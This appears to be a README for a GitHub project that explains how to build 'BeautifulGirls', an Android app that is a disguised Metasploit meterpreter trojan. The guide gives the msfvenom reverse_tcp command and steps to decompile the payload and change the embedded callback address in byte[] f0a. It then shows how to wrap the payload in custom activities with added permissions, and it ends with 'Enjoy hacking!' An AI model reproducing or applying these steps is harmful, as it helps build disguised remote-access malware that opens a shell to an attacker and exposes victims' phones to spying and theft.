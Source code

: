 The app "BeautifulGirls" is based on trojan apk generated by metasploit framework.

So how can I build it?

1.Generate trojan apk by metasploit framework.

E.g:
msfvenom -p android/meterpreter/reverse_tcp lhost=172.20.2.143 lport=5555 R>./Payload.apk

2.Then we decompile Payload.apk by jadx-gui-1.3.3-with-jre-win(I didn't find its linux version, if you have, thanks a lot for sharing), and save the source code.

3.Before building a customised trojan, we must ask such a question: where is the information needed for a successful HTTP or TCP connection saved?

Bingo, it's saved in f0a, the byte[] in file Payload.java!

After analyzing the code, I found the algorithms to decode f0a, so, I show the decoding process in this directory "Decode", almost copied from the decompiled files.

4.After that, we understand every time metasploit framework generates a trojan apk, what must be changed is only the byte[] f0a!  

5.Let's begin to build our customised trojan then!

> 1)Open your Android Studio and start from an empty activity;
> 
> 2)Copy the decompiled files to directory java/main/src;
> 
> 3)Press Alt +Enter to erase every red underline you meet;
> 
> 4)Remember to change the byte[] f0a, make sure it's your own ip address,get it from the decompiled file Payload.java (I can't understand how metasploit generates such a byte[], if you know, it will be much easier to change it!);
> 
> 5)Good! You are almost there! Add your customised activities to this project and all is done! Oh,wait a second!
> 
> 6)Don't forget to change AndroidManifest.xml, add permissions, service and so on!

6.Well, we got it! Kind of difficult, Aha~

**Enjoy hacking! Why not start android studio and msfconsole now?**
